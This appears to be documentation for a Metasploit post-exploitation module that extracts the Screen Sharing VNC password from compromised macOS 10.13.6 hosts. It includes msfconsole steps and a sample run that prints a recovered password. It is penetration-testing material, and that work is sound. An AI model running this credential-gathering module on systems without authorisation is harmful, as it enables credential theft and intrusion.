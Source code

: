 This module shows Apple VNC Password from Mac OS X High Sierra.

The password can be set by visiting:
System Preferences > Sharing > Screen Sharing > Computer Settings

## Vulnerable Application

  * macOS 10.13.6*


## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start `msfconsole`
  2. Do: `post/osx/gather/vnc_password_osx`
  3. Do: set the `SESSION [ID]`
  4. Do: ```run```
  5. You should get the password


## Scenarios

  Typical run against an OSX session, with the vnc service activated:

```
msf5 exploit(multi/handler) > use post/osx/gather/vnc_password_osx
msf5 post(osx/gather/vnc_password_osx) > set SESSION 1
SESSION => 1
msf5 post(osx/gather/vnc_password_osx) > exploit

[*] Running module against MacBook-Pro.local
[*] This session is running as root!
[*] Checking VNC Password...
[+] Password Found: PoCpassw
[*] Post module execution completed
msf5 post(osx/gather/vnc_password_osx) >
```
